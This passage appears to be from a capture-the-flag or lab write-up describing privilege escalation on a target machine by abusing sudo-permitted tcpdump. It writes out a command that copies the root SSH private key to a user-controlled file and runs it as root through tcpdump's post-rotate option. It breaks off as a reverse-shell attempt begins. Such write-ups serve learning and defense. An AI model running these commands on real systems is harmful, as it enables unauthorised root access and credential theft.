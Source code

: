 1.  First we sets a variable called `COMMAND` with the command that we want to run, read the root ssh key and save it to a location we control
    ```shell
    COMMAND='cat /root/.ssh/id_rsa >> /home/james/key.txt'
    ```

2.  We create a temporary file using `mktemp`, and assigns the path to a variable `TF`.
    ```shell
    TF=$(mktemp)
    ```
    Example output: `/tmp/tmp.abc123`

3.  We now copy the content of the `COMMAND` variable into the temporary file `TF`. This writes the content of `COMMAND` into the file stored in `TF`.
    ```shell
    echo "$COMMAND" > $TF
    ```

4.  We make the temp file executable so it can be run as a script and executed.
    ```shell
    chmod +x $TF
    ```

5.  This is where the abuse of `tcpdump` happens (the magic).
    ```shell
    sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
    ```

    -   `sudo tcpdump` initiates the process as root.
    -   `-ln` – disables name resolution for IPs and ports.
    -   `-i lo` – captures on the loopback interface (`lo`).
        -   This interface is ALWAYS available.
    -   `-w /dev/null` – write the capture to `/dev/null` as we don't actually need the `.pcap`.
    -   `-W 1` – keeps only one capture file.
    -   `-G 1` – rotates the capture file every 1 second (used with `-w` and `-z`).
    -   `-z $TF` – tells `tcpdump` to run the `$TF` script (our malicious script) after rotating the file.
        -   Usually this flag would be used to compress the capture file post rotation.
    -   `-Z root` – sets the user that runs the post-rotate script to `root`.

This is the key part to the exploit: the script in `$TF` is executed **as root** because of `-Z root`, allowing us to execute the commands in the context of root.

Checking to see if `key.txt` is now available and we can see the file is present.
![](/ox-hugo/2025-06-01-165005_.png)

If we check the content we can see it contains the ssh key of the root user.
![](/ox-hugo/2025-06-01-165111_.png)

Well well well after all that the root account still required a password when sshing in, so if you try and access with that key it will not work, instead lets give ourselves a reverse root shell using the same technique.


#### Attempt 2: Getting A Root Reverse Shell: {#attempt-2-getting-a-root-reverse-shell}
